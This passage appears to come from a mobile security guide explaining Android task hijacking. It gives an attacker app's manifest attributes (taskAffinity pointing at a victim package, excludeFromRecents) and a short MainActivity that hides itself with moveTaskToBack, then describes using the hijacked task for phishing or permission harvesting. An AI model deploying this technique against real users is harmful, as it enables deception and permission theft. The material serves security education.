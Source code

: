The attacker app:

* Uses `android:taskAffinity="com.zombie.ssa"` to associate itself with the victim’s app task.
* Hides from the recent apps list with `android:excludeFromRecents="true"`.

#### Attacker's Code (MainActivity.java)

```java
package com.zombie.attackerapp;

import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;

import android.Manifest;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Build;
import android.os.Bundle;
import android.view.View;
import android.widget.EditText;
import android.widget.TextView;

import com.google.android.material.snackbar.Snackbar;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```

The function `moveTaskToBack(true)` pushes the activity to the background, making it seem invisible to the user.

#### How the Attack Works

1. The victim app (_Super Secure App_) opens normally.
2. The attacker app runs in the background and minimizes itself to avoid detection.
3. When the victim app is reopened, the attacker’s app takes over the task, deceiving the user.
4. This method can be used for phishing or permission harvesting attacks, making it appear as if the victim app is requesting permissions while actually granting them to the attacker.

{% embed url="https://youtu.be/RNYJ5FyZh5c" %}

### Exploiting `moveTaskToBack()` and `excludeFromRecents`
